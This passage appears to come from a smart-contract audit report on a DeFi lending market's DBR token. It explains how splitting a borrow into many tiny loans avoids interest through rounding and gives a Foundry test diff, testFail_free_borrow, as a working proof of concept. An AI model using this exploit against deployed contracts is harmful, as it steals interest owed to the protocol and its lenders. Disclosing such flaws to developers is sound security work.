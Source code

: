 #### [](#risk-parameters)Risk parameters

However, all these values could change in the future. And if we look at other networks, Layer2 or EVM compatible Layer1, the parameters might be different today.

Also, notice that if the contract were used to borrow a different asset than DOLA, the numbers would look drastically different. The risk increases with the asset’s price and becomes bigger the fewer decimals the token uses. For example, to borrow 1 WBTC (8 decimals), we would only need 39 small loans:

    #loans = 10^8 / 2,627,999 ~39

And to borrow WBTC worth $1,000,000 at a price of 20,746$/BTC, we would need 1864 small loans.

    #loans ~= 49*10^8 / 2,627,999 ~= 1864

#### [](#foundry)Foundry

The following test demonstrates how to avoid paying interest on a loan for 1h. A failing test means that the attack was successful.

    $ git diff src/test/DBR.t.sol
    diff --git a/src/test/DBR.t.sol b/src/test/DBR.t.sol
    index 3988cf7..8779da7 100644
    --- a/src/test/DBR.t.sol
    +++ b/src/test/DBR.t.sol
    @@ -25,6 +25,20 @@ contract DBRTest is FiRMTest {
             vm.stopPrank();
         }
     
    +    function testFail_free_borrow() public {
    +        uint borrowAmount =  2_627_999;
    +
    +        vm.prank(address(market));
    +        dbr.onBorrow(user, borrowAmount);
    +
    +        for (uint i = 12; i <= 3600; i += 12) {
    +            vm.warp(block.timestamp + 12);
    +            dbr.accrueDueTokens(user);
    +        }
    +        assertEq(dbr.deficitOf(user), 0);
    +    }
    +
    +
         function testOnBorrow_Reverts_When_AccrueDueTokensBringsUserDbrBelow0() public {
             gibWeth(user, wethTestAmount);
             gibDBR(user, wethTestAmount);

Output:

    $ forge test --match-test testFail_free_borrow -vv
    [⠆] Compiling...
    [⠊] Compiling 1 files with 0.8.17
    [⠢] Solc 0.8.17 finished in 2.62s
    Compiler run successful
    